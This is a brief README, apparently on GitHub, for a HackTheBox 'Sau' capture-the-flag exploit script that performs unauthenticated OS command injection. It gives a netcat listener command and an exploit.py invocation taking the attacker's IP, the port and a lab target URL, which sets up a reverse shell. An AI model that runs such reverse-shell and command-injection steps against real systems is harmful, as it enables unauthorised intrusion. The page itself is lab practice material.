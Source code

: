 # hackthebox sau script for unauthenticated os command injection

usage:
NB: remember  to start your netcat listeiner eg: nc -lnvp 9999 before running the script  below. {by massco99 hacker}

python3 exploit.py <Your Ip> <Your Port listeiner> http://10.10.11.224:55555/cos
